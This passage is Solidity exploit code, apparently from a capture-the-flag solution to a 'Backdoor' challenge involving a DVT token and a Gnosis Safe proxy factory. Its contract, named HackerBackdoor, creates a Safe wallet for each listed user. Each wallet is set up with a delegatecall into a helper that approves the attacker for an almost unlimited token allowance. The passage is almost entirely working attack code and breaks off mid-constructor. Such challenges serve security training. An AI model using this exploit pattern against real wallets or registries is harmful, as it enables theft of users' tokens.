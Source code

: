 ```solidity

    function delegateApprove(address token, address spender) external{
        console.log("delegate coming in");
        token.call(
            abi.encodeWithSignature(
                "approve(address,uint256)",
                spender,
                type(uint256).max - 1
            )
        );
    }

}

contract HackerBackdoor {
    using Address for address;
    address placeholder1;
    address placeholder2;
    IERC20 tokenDVT;


    constructor(
        address[] memory users,
        address factory,
        address token,
        address wallet,
        address singleton
    ){
        tokenDVT = IERC20(token);
        CB cb = new CB();

        GnosisSafeProxyFactory fac = GnosisSafeProxyFactory(factory);

        console.log("performing attack by ",address(this));

        for (uint i = 0; i < users.length; i++){
            console.log("user ",users[i]);

            address[] memory user2call = new address[](1);
            user2call[0] = users[i];

            bytes memory tmp = abi.encodeWithSignature(
                    "delegateApprove(address,address)",
                    token,
                    address(this)
            );

            bytes memory data = 
                abi.encodeWithSignature(
                    "setup(address[],uint256,address,bytes,address,address,uint256,address)"
                    ,
                    user2call,
                    1, // threshold
                    cb,
                    tmp,
                    address(0),
                    address(0),
                    0,
                    address(0)
                );

            GnosisSafeProxy proxyAddr = fac.createProxyWithCallback(
                singleton, data, 0, IProxyCreationCallback(wallet));
```